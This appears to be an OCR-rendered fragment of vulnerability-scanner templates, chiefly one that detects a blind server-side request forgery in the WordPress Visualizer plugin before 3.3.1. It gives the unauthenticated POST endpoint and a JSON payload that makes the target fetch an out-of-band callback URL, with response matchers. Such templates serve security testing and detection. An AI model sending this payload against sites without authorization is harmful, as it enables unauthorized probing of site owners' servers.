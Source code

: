 **Type - word**

- part - body
- words
  1. Interactsh Server

**Type - status**

- status
  1. 200

---

# Visualizer \<3.3.1 - Blind Server-Side Request Forgery

## Description

- Visualizer prior to 3.3.1 suffers from a blind server-side request forgery vulnerability via the /wp-json/visualizer/v1/upload-data endpoint.

- severity - critical
- tags - cve,cve2019,wp-plugin,ssrf,wordpress,xss,unauth,wpscan

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/wp-json/visualizer/v1/upload-data
  - {\"url\":\"http://{{interactsh-url}}\"}

### Matchers

**Type - word**

- part - interactsh_protocol
- name - http
- words
  1. http

**Type - word**

- part - header
- words
  1. application/json

**Type - status**

- status
  1. 200

---
